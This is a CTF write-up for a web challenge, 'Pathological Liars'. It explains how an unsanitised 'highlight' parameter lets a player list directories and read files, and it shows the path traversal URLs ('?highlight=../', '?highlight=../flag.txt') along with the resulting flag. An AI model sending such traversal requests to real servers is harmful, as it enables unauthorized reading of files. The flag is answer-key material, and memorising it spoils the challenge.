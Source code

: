 # Pathological Liars

> Points: 150

> Category: Web

## Description

If at once you don't solve a challenge, ask your parents to solve it for you :D

## Attachments

https://pathological-liars.robinjadoul.repl.co/

## Solution

The ``get_content()`` function checks if the parameter passed through it is a file that exists on the server. If it is, it will read the file, and if not, it checks if it is a directory. If it is a directory, it will list what is inside.
The ``serve`` function gets the value of the **highlight** request arg and passes that through the ``get_content`` function.

We can explore the directories and their content by using **.** to list the files in the current dir, and **../** to go up a directory.

``https://pathological-liars.robinjadoul.repl.co/?highlight=../``

```
- .upm
- pyproject.toml
- poetry.lock
- src
- flag.txt
- main.py
```

``https://pathological-liars.robinjadoul.repl.co/?highlight=../flag.txt``

```
ictf{oh_your_parents_dont_have_a_flag?}
```

### Flag
> ictf{oh_your_parents_dont_have_a_flag?}
